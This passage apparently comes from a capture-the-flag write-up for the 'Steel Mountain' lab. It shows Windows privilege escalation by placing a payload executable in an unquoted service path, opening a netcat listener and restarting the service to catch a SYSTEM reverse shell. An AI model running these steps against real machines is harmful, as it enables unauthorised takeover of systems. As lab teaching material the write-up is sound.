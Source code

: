 We move the payload in the path **C:\Program Files (x86)\IObit\\**:
```
move "C:\Users\bill\Desktop\Advanced.exe" "C:\Program Files (x86)\IObit\"
```
![Advanced.exe uploaded](/assets/img/posts/steel-mountain/script_advanced_uploaded.png)

Now, we create the listener:
```
nc -lnvp 1111
```

And we start the AdvancedSystemCareService9 service:
```
net start AdvancedSystemCareService9
```

And we get the system shell:

![System shell](/assets/img/posts/steel-mountain/system_shell.png)
